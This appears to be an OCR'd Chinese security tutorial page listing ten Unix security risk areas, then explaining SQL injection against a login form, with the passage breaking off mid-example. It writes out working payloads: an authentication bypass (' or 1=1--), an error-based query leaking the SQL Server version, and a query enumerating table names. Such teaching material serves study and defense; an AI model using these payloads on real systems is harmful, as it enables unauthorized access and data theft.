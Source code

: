 **Unix十大安全隐患**

* BIND域名系统
* Web服务器
* 认证
* 版本控制系统
* 电子邮件传输服务
* 简单网络管理协议
* 开放安全连接通讯层
* 企业服务NIS/NFS 配置不当
* 数据库
* 内核

## 2.2  SQL注入

[   ](http://images.cnblogs.com/cnblogs_com/hkncd/201203/201203310307276110.png)![image-20200108003514123](../media/domain/security_013.png)

**示例：Name、Password、Corp**

**1.初级注入--绕过验证，直接登录**

输入：`' or 1=1--'`

SQL：

```sql
SELECT * From Table WHERE Name='SQL inject' and Password='' and Corp='' or 1=1--'
```

说明：从代码可以看出，前一半单引号被闭合，后一半单引号被 “--”给注释掉，中间多了一个永远成立的条件“1=1”，这就造成任何字符都能成功登录的结果。而Sql注入的危害却不仅仅是匿名登录。

**2.中级注入--借助异常获取信息**

输入：`' or 1=(SELECT @@version) –-`

SQL：

```sqlite
SELECT * From Table WHERE Name='SQL inject' and Password='' and Corp='' or 1=(SELECT @@VERSION)--'
```

说明：判断条件变成了 1=(SELECT @@VERSION),这个写法肯定会导致错误，但出错正是我们想要的。点击登录后，页面出现以下信息：

Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2008 (SP3) - 10.0.5500.0 (X64) Sep 21 2011 22:45:45 Copyright (c) 1988-2008 Microsoft Corporation Developer Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) ' to data type int.

可怕的事情出现了，服务器的操作系统和SQL Server版本信息竟然通过错误显示出来。

备注：phpmyadmin中执行select * from anchor where 1=(SELECT @@VERSION)无结果显示，可能此BUG已修复。

**3.危害扩大--获取服务器所有的库名、表名、字段名**

**输入**：

SQL：

```sql
b' or 1=(SELECT top 1 name FROM master..sysobjects where xtype='U' and name not in (SELECT top 1 name FROM master..sysobjects where xtype='U'))
```
